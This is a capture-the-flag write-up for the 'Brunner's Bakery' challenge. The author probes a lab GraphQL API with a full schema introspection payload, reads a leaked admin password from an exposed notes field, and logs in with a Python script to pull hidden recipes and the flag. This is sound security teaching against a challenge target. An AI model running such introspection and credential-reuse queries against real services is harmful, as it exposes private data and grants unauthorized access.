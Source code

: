 # Brunner's Bakery

```text
Recent Graphs show that we need some more Quality of Life recipes! Can you go check if the bakery is hiding any?!
```

![image](../images/4.png)

So, this could be a GraphQL Injection problem

Using the following payload from [PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/GraphQL%20Injection):

```python
payload = {
  "query": """
    query {
      __schema{queryType{name},mutationType{name},types{kind,name,description,fields(includeDeprecated:true){name,description,args{name,description,type{kind,name,ofType{kind,name,ofType{kind,name,ofType{kind,name,ofType{kind,name,ofType{kind,name,ofType{kind,name,ofType{kind,name}}}}}}}},defaultValue},type{kind,name,ofType{kind,name,ofType{kind,name,ofType{kind,name,ofType{kind,name,ofType{kind,name,ofType{kind,name,ofType{kind,name}}}}}}}},isDeprecated,deprecationReason},inputFields{name,description,type{kind,name,ofType{kind,name,ofType{kind,name,ofType{kind,name,ofType{kind,name,ofType{kind,name,ofType{kind,name,ofType{kind,name}}}}}}}},defaultValue},interfaces{kind,name,ofType{kind,name,ofType{kind,name,ofType{kind,name,ofType{kind,name,ofType{kind,name,ofType{kind,name,ofType{kind,name}}}}}}}},enumValues(includeDeprecated:true){name,description,isDeprecated,deprecationReason,},possibleTypes{kind,name,ofType{kind,name,ofType{kind,name,ofType{kind,name,ofType{kind,name,ofType{kind,name,ofType{kind,name,ofType{kind,name}}}}}}}}},directives{name,description,locations,args{name,description,type{kind,name,ofType{kind,name,ofType{kind,name,ofType{kind,name,ofType{kind,name,ofType{kind,name,ofType{kind,name,ofType{kind,name}}}}}}}},defaultValue}}}
    }
    """
}
```

In the [response](../images/schema_response.json), we notice `secretRecipes`. Trying the payload similar to the `publicRecipes` one:

```python
payload = {
  "query": """
    query {
      secretRecipes {
        name
        description
        author {
          displayName
        }
        ingredients {
          name
        }
      }
    }
    """
}
```

But we get 'Access denied. admin only' error :(

There is a `login` function (mutation) as seen in the schema output; it requires username and password

Let's try the interesting fields of the Recipe, User, Ingredient types (found from the schema output)

```python
payload = {
  "query": """
    query {
      publicRecipes {
        name
        description
        author {
          id
          username
          displayName
          email
          notes
          privateNotes
        }
        ingredients {
          name
        }
      }
    }
    """
}
```

The output contains `'notes': 'TODO: Remove temporary credentials... brunner_admin:Sw33tT00Th321?'`

We have the username and password now

```python
import requests

url = "https://brunner-s-bakery.challs.brunnerne.xyz/graphql"

payload = {
    "query": """
    query {
      secretRecipes {
        name
        description
        author {
          id
          username
          displayName
          email
          notes
          privateNotes
        }
        ingredients {
          name
          supplier {
            name
            owner {
              id
              username
              displayName
              email
              notes
              privateNotes
            }
          }
        }
      }
    }
    """
}

payload = {
    "query": """
    mutation {
      login(username: "brunner_admin", password: "Sw33tT00Th321?") {
        token
        user {
          id
          username
        }
      }
    }
    """
}

headers = {
    "Content-Type": "application/json",
}

response = requests.post(url, json=payload, headers=headers)
token = response.json()["data"]["login"]["token"]
headers = {"Content-Type": "application/json", "Authorization": f"Bearer {token}"}

payload = {
    "query": """
    query {
      secretRecipes {
        name
        description
        author {
          id
          username
          displayName
          email
          notes
          privateNotes
        }
        ingredients {
          name
          supplier {
            name
            owner {
              id
              username
              displayName
              email
              notes
              privateNotes
            }
          }
        }
      }
    }
    """
}

response = requests.post(url, json=payload, headers=headers)

try:
    print(response.json())
except Exception:
    print(response.text)
```

**Note**: `secretRecipes` turned out to be a red herring. The payload of `publicRecipes`, with ingredient fields expanded, also exposes the flag:

```python
payload = {
    "query": """
    query {
      publicRecipes {
        name
        description
        author {
          id
          username
          displayName
          email
          notes
          privateNotes
        }
        ingredients {
          name
          supplier {
            name
            owner {
              id
              username
              displayName
              email
              notes
              privateNotes
            }
          }
        }
      }
    }
    """
}
```
